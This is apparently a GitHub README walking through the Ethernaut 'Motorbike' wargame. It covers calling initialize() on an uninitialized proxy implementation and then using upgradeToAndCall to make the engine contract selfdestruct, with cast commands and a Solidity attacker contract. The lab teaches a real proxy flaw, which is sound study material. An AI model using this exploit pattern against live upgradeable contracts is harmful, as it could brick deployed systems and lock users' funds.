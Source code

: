 welcome snippet

OpenZeppelin asks us to 'selfdestruct its engine and make the motorbike unusable'

This challenge features a proxy just like the last challenge: Puzzle-Wallet, go check it out if you haven't already as this challenge will make a lot more sense having gone through that one. I recently read of the exploit dubbed "explodingKittens" that thankfully was discovered before any damage could be done. It's a severe vulnerability that could have been abused to brick tens (possibly hundreds) of millions of dollars. Funny enough, while solving the previous challenge I was at first convinced we would need to explode some kittens, only belatedly realizing it was a much simpler storage overlap situation. This challenge however looks prime for exploding some kittens!

The 2021 ExplodingKittens exploit is premised on the fact that many upgradeable proxy contracts possess their upgrade logic in the logic implementation contract and that calls are delegatecalled via a fallback function. This proxy pattern, while immensely useful, can be terribly disastrous if a dapp does not take care to initialize its logic implementation contract (logic implementation contracts' initialize function must be manually invoked, unlike constructors). In such a case, an attacker may be able to gain permissioned access within a logic contract and maneuver laterally within to wreak other havoc.

So, let's see if we can't bypass the proxy entirely and call the initialize function on the logic implementation contract itself.

First let's locate the target logic implementation contract. There are a variety of ways to do this, via some sleuthing on Etherscan, using OpenZeppelin's awesome library of nifty proxy functions, or using Foundry's cast storage command. 

Personally I chose to use Foundry for this, but if you're more comfortable using Javascript I included that approach as well.

## Foundry's cast storage command

Remember that all storage variables and bytecode are ALWAYS public on-chain. There is nowhere to hide. Since we have the Motorbike's source code via Ethernaut, all we need to do is read from the storage slot termed _IMPLEMENTATION_SLOT (assigned 0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc) specified at the top of the contract.

```cast storage $your_ethernaut_instance 0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc```

Where $instance is set by a simple export:

```export instance=0xd00d00beefb00b```

## The OpenZeppelin JS option

If you go the OpenZeppelin route, a short js script will do the trick:

```
import {getImplementationAddress} from '@openzeppelin/upgrades-core'
const targetImpl = await getImplementationAddress(provider, proxyAddress)
```

Where your proxyAddress would be $your_ethernaut_instance and the provider would be easily set using the Ethers library. I've included the completed js script is in the ```script``` directory of this repo; it uses the common ethers js framework as well as the ever-useful dotenv library to establish a connection to Rinkeby via Infura.

When we run our nifty getImplementation.js script, a target address is returned to us in the console:

![alt text](https://github.com/robriks/motorbike/../../../../script/result.png)

## Once we've identified the logic implementation contract address

Looking back at the proxy, we see that the proxy contract is initialized in the proxy constructor:

```
    (bool success,) = _logic.delegatecall(
        abi.encodeWithSignature("initialize()")
    );
    require(success, "Call failed");
```

But there's no call to initialize the logic contract in sight! To be sure, let's run some quick checks to see if the logic implementation is initialized:

```cast call $IMPL --rpc-url $RPC "upgrader():(address)"```
```cast call $IMPL --rpc-url $RPC "horsePower():(uint256)"```

0 all around!? QUICK, CALL INITIALIZE() BEFORE SOME OTHER H4CK3R DOES! (or, as we are about to do, write it into a malicious contract for the element of surprise ;) )

```cast send --private-key $PRIV_KEY $IMPL --rpc-url $RPC "initialize()"```

Howly h00ts, I'M IN!!! 😈😈😈😈😈

PWND! With upgrader set to h4xz0r KweenBirb's address, we can now call upgradeToAndCall() to set a logic implementation 'engine' with a selfdestruct() function for the original logic implementation 'engine' to call! Teehee, we're gonna blow this Motorbike Engine to smithereens and set all the funds involved on 🔥🔥🔥fire🔥🔥🔥!

That way, once the Engine contract is selfdestructed, the proxy contract will be bricked, stuck calling an empty contract for its functions. The only way our plan could be foiled is if the delegatecall architecture checks for extcodesize() to prevent this. Looking at the _delegate fallback, we can see indiscriminate delegatecall assembly handling every call forwarded to the fallback function:

```
    function _delegate(address implementation) internal virtual {
        // solhint-disable-next-line no-inline-assembly
        assembly {
            calldatacopy(0, 0, calldatasize())
            let result := delegatecall(gas(), implementation, 0, calldatasize(), 0, 0)
            returndatacopy(0, 0, returndatasize())
            switch result
            case 0 { revert(0, returndatasize()) }
            default { return(0, returndatasize()) }
        }
    }
```

Aaaaand no extcodesize() logic to save the proxy if we brick it. Perfect.

## Let's get cracking, shall we?

Let's format a malicious contract function invoking selfdestruct():

```
function payload() public {
        selfdestruct(0x000000000000000000000000000000000000dEaD);
    }
```

And then invoke it using the Engine's convenient function intended for the proxy Motorbike to both set a new implementation and presumably initialize it in one transaction. Of course, we'll be setting things on fire instead.

```
function sugarInYourEngine() public {
        // become upgrader by initializing logic engine
        engine.initialize();
        engine.upgradeToAndCall(address(this), abi.encodeWithSignature("payload()"));
    }
```

With that, all we need to do is deploy our malicious contract and call sugarInYourEngine() to clog and explode the engine of Ethernaut's Motorbike. Pretty rude, if you ask me. But it had to be done.